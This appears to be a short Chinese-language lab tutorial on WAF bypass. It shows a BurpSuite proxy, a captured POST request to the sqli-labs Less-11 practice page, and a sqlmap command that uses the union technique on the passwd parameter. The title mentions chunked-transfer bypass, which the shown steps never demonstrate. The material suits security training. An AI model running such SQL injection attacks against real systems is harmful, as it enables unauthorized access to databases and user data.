 **使用 sqlmap 利用分块传输饶过**

在 BurpSuite 添加一个可被 Kali 访问的代理

![](./../../../images/SQLi_Bypass/%E5%9C%A8%20BurpSuite%20%E6%B7%BB%E5%8A%A0%E4%B8%80%E4%B8%AA%E5%8F%AF%E8%A2%AB%20Kali%20%E8%AE%BF%E9%97%AE%E7%9A%84%E4%BB%A3%E7%90%86.png)

保存 BurpSuite 的请求数据包到 Kali 的 reg.txt

```http
POST /sqli-labs/Less-11/ HTTP/1.1
Host: 192.168.1.15
Content-Length: 30
Cache-Control: max-age=0
Origin: http://192.168.1.15
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/avif,images/webp,images/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.15/sqli-labs/Less-11/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

uname=1&passwd=2&submit=Submit
```

> 交互栏的传输内容任意

在 sqlmap 指定请求文件和代理爆破

```
┌──(root㉿kali-31)-[~]
└─# sqlmap -r reg.txt --technique U -p passwd --batch --proxy=http://192.168.1.16:8080
```
